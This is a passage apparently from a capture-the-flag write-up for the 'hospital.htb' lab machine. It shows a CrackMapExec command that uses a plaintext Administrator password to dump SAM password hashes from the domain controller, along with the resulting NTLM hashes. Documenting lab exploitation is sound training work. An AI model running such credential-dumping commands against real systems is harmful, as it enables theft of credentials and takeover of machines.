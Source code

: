 ## Hashes

```bash
➜  ~ cme smb 10.10.11.241 -u Administrator -p 'Th3B3stH0sp1t4l9786!' --sam
SMB         10.10.11.241    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\Administrator:Th3B3stH0sp1t4l9786! (Pwn3d!)
SMB         10.10.11.241    445    DC               [+] Dumping SAM hashes
SMB         10.10.11.241    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:e1ae906d259a980297d5eb72aa7ba35c:::
SMB         10.10.11.241    445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.241    445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ERROR:root:SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
SMB         10.10.11.241    445    DC               [+] Added 3 SAM hashes to the database
```
